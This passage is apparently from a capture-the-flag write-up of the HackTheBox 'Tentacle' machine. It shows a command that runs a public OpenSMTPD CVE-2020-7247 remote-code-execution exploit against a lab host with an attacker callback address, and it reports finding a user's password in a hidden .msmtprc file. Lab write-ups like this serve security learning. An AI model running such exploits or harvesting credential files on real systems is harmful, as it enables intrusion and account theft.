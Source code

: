 
This SMPT version affected of [CVE-2020-7247 - Remote Code Execution](https://raw.githubusercontent.com/QTranspose/CVE-2020-7247-exploit/main/exploit.py). We can easily gaining access into system with following command :

```bash
proxychains -q python3 exploit.py 10.241.251.113 25 10.10.14.8 9000 'j.nakazawa@realcorp.htb'
```

![](/assets/img/tentacle/11.png)

During the enumeration i found hidden file with name `.msmtprc` contains password for j.nakazawa.

![](/assets/img/tentacle/12.png)
